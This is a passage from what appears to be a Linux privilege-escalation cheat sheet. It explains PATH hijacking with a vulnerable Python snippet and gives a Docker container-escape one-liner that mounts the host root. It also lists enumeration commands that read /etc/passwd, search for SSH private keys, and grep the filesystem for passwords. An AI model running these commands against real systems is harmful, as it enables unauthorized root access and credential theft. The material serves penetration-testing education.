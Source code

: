    - [GTFOBins](https://gtfobins.github.io/) are a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

3. **Path Hijacking**

   - Path Hijacking occurs when a program uses the relative path to another program instead of the absolute path. Consider the following Python code:

     ```python
     import os
     os.system('create_backup')
     ```

     The `$PATH` variable is a Linux environment variable that specifies where to look for a specific binary when a full path is not provided. An attacker can exploit this mechanism by either being allowed to modify the `$PATH` variable or being able to write files inside directories specified there.
     So, in order to exploit the above Python code, the attacker places a program called `create_backup` inside a location from the `$PATH` variable and Linux will execute the malicious program instead of the intended one.

4. **Docker Privilege Escalation / Container Escape**

   - This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.

     ```bash
     > docker run -v /:/mnt --rm -it alpine chroot /mnt sh
     ```

     The command above creates a new container based on the `Linux Alpine` image, mounts the `/` directory from the host on `/mnt` inside the container and runs it with `/bin/sh`. Now the attacker can read any file on the system.

   - Escaping Docker privileged containers. Docker privileged containers are those run with the `--privileged` flag. Unlike regular containers, these have root privilege to the host machine. A detailed article can be read [here](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)

5. **Others**

- `id` / `whoami` - identify if the user is part of special groups, such as `docker`, `admin`, etc.
- `cat /etc/passwd` - list system users for potential privilege escalation
- `crontab -l` / `ls -al /etc/cron* /etc/at*` - enumerate cron jobs (scheduled jobs) on the system.
- `ps aux` / `ps -ef` - inspect running processes
- `find / -name authorized_keys 2> /dev/null` - find SSH authorized keys
- `find / -name id_rsa 2> /dev/null` - find SSH private keys
- `find / -type f -iname ".*" -ls 2>/dev/null` - find hidden files
- `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null` - find files containing passwords.
- Manually looking through web server logs, such as access or error logs for any sensitive information. Default locations for these logs:
- `/var/log/apache2/error.log`
- `/var/log/apache/access.log`
- `/var/log/apache2/access.log`
- `/etc/httpd/logs/access_log`
